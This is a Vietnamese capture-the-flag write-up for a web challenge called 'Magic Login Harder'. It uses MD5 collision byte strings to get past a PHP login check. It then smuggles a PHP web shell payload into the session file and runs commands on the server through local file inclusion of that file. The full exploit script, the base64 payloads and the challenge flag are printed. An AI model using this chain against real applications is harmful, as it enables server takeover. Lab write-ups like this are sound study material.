 <h1 href="https://battle.cookiearena.org/challenges/web/magic-login-harder">Magic Login Harder</h1>

<h3>index.php</h3>

```php
if(isset($_POST["submit"])){
    $username = base64_decode($_POST['username']);
    $password = base64_decode($_POST['password']);

    if(($username == $password)){
        echo 'Username and password are not the same';
    }
    else if((md5($username)===md5($password))){
        $_SESSION['username'] = $username;
        header('Location: admin.php?file=1.txt');
    } else {
        echo 'Username and password are wrong';
    }
}
```
Xuất hiện lỗ hổng <b>md5collision</b> trong đoạn code.

Tìm được 2 chuỗi hex sau khi md5 cho kết quả bằng nhau tại <a href="https://www.mscs.dal.ca/~selinger/md5collision/">đây</a>.

```python
import hashlib
username = 'd131dd02c5e6eec4693d9a0698aff95c2fcab58712467eab4004583eb8fb7f8955ad340609f4b30283e488832571415a085125e8f7cdc99fd91dbdf280373c5bd8823e3156348f5bae6dacd436c919c6dd53e2b487da03fd02396306d248cda0e99f33420f577ee8ce54b67080a80d1ec69821bcb6a8839396f9652b6ff72a70'
password = 'd131dd02c5e6eec4693d9a0698aff95c2fcab50712467eab4004583eb8fb7f8955ad340609f4b30283e4888325f1415a085125e8f7cdc99fd91dbd7280373c5bd8823e3156348f5bae6dacd436c919c6dd53e23487da03fd02396306d248cda0e99f33420f577ee8ce54b67080280d1ec69821bcb6a8839396f965ab6ff72a70'

assert hashlib.md5(bytes.fromhex(username)).hexdigest() == hashlib.md5(bytes.fromhex(password)).hexdigest()
# đều bằng 79054025255fb1a26e4bc422aef54eb4
```

<h3>admin.php</h3>

```php
if($_SESSION['username'] != null){
        if(isset($_GET['file'])){
            $file = $_GET['file'];
            include($file);
        }
    }
```
Vì input username được gán vào biến <b>$_SESSION['username']</b> và mọi dữ liệu của SESSION được lưu trong file <b>/tmp/sess_PHPSESSID</b> nên có thế thêm payload để thực thi code như sau:

```python
import hashlib
import base64
username = 'd131dd02c5e6eec4693d9a0698aff95c2fcab58712467eab4004583eb8fb7f8955ad340609f4b30283e488832571415a085125e8f7cdc99fd91dbdf280373c5bd8823e3156348f5bae6dacd436c919c6dd53e2b487da03fd02396306d248cda0e99f33420f577ee8ce54b67080a80d1ec69821bcb6a8839396f9652b6ff72a70'
password = 'd131dd02c5e6eec4693d9a0698aff95c2fcab50712467eab4004583eb8fb7f8955ad340609f4b30283e4888325f1415a085125e8f7cdc99fd91dbd7280373c5bd8823e3156348f5bae6dacd436c919c6dd53e23487da03fd02396306d248cda0e99f33420f577ee8ce54b67080280d1ec69821bcb6a8839396f965ab6ff72a70'

payload = b'<?php system($_GET[\'cmd\'])?>'
assert hashlib.md5(bytes.fromhex(username)+payload).hexdigest() == hashlib.md5(bytes.fromhex(password)+payload).hexdigest()
# md5(username) == md5(password)

print(hashlib.md5(bytes.fromhex(username)).hexdigest())
username_encodebase64 = base64.b64encode(bytes.fromhex(username)+payload)
password_encodebase64 = base64.b64encode(bytes.fromhex(password)+payload)

assert username_encodebase64 != password_encodebase64
# username != password
print(username_encodebase64)
print(password_encodebase64)

#username = 0THdAsXm7sRpPZoGmK/5XC/KtYcSRn6rQARYPrj7f4lVrTQGCfSzAoPkiIMlcUFaCFEl6PfNyZ/ZHb3ygDc8W9iCPjFWNI9brm2s1DbJGcbdU+K0h9oD/QI5YwbSSM2g6Z8zQg9XfujOVLZwgKgNHsaYIby2qIOTlvllK2/3KnA8P3BocCBzeXN0ZW0oJF9HRVRbJ2NtZCddKT8+

#password = 0THdAsXm7sRpPZoGmK/5XC/KtQcSRn6rQARYPrj7f4lVrTQGCfSzAoPkiIMl8UFaCFEl6PfNyZ/ZHb1ygDc8W9iCPjFWNI9brm2s1DbJGcbdU+I0h9oD/QI5YwbSSM2g6Z8zQg9XfujOVLZwgCgNHsaYIby2qIOTlvllq2/3KnA8P3BocCBzeXN0ZW0oJF9HRVRbJ2NtZCddKT8+
```

Sau khi login, vào trang admin.

![](./img/1.png)

```
FLAG: CHH{7yPE_jU66lin9_hArdEr_97940fe057da6568c40d99ae587adee7}
```